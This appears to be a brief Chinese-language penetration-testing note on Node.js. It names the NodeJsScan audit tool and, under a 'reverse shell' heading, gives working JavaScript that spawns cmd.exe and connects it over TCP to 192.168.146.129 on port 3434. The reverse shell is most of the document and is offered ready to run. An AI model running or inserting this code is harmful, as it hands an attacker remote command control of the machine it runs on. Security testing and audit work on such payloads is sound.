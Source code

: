 ## 审计工具
https://github.com/ajinabraham/NodeJsScan
## 反弹shell
```js
function tan(){
    var net = require("net"),
        cp = require("child_process"),
        cmd = cp.spawn("cmd.exe", []); // windows
    var client = new net.Socket();
    client.connect(3434, "192.168.146.129", function(){
        client.pipe(cmd.stdin);
        cmd.stdout.pipe(client);
        cmd.stderr.pipe(client);
    });
    return 1;
}tan();
```